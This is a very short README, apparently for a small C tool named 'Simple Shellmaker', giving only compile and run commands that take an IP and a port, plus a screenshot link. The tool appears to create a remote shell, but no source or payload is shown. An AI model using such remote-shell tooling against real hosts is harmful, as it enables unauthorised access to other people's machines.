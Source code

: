 # Simple Shellmaker

## Usage

```bash
gcc .\shellMan2.c -o shellMan2
.\shellMan2.exe IP PORT
```

![](https://i.imgur.com/SS2wuUn.png)
